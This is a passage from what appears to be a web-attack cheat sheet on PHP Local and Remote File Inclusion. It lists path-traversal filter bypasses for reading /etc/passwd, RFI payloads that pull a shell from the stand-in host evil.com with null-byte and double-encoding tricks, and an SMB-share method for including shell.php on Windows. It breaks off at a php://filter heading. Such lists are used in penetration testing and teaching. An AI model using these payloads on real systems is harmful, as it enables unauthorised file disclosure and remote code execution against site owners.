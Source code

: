 ### Filter bypass tricks

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```


## Remote File Inclusion

> Remote File Inclusion (RFI) is a type of vulnerability that occurs when an application includes a remote file, usually through user input, without properly validating or sanitizing the input.

Remote File Inclusion doesn't work anymore on a default configuration since `allow_url_include` is now disabled since PHP5.

```ini
allow_url_include = On
```


Most of the filter bypasses from LFI section can be reused for RFI.

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null byte

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```


### Double encoding

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```


### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`


## LFI / RFI using wrappers

### Wrapper php://filter
